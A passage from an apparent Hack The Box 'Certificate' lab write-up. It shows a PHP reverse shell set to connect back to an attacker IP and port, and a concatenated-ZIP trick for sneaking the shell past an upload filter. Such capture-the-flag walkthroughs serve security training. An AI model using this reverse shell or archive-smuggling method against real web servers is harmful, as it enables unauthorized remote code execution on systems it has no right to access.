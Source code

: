 Then we grabbed the `reverse shell` of our trust (another shout-out to `Ivan Sincek`!), modified it to our needs and repeated the process.

- [https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/refs/heads/master/src/reverse/php_reverse_shell.php](https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/refs/heads/master/src/reverse/php_reverse_shell.php)

```shell
┌──(kali㉿kali)-[/media/…/Machines/Certificate/files]
└─$ tail barfoo.php 
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('10.10.16.15', 9000);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';
?>
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certificate/files]
└─$ 7z a barfoo.zip barfoo.php

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=en_US.UTF-8 Threads:4 OPEN_MAX:1024, ASM

Scanning the drive:
1 file, 9405 bytes (10 KiB)

Creating archive: barfoo.zip

Add new data to archive: 1 file, 9405 bytes (10 KiB)

    
Files read from disk: 1
Archive size: 2704 bytes (3 KiB)
Everything is Ok
```

As last step we used `cat` (very important!) to create a `combined archive` by adding firstly the `archive` containing the `legitimate` file and secondly the `archive` with our `reverse shell` in it.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certificate/files]
└─$ cat foobar.zip barfoo.zip > combined.zip
```

In order to pull it off we first had to upload the legitimate `.pdf` file to generate the `static URL`.

- [http://certificate.htb/static/uploads/fd5b3018c29991130b22f3381786067b/foobar.pdf](http://certificate.htb/static/uploads/fd5b3018c29991130b22f3381786067b/foobar.pdf)
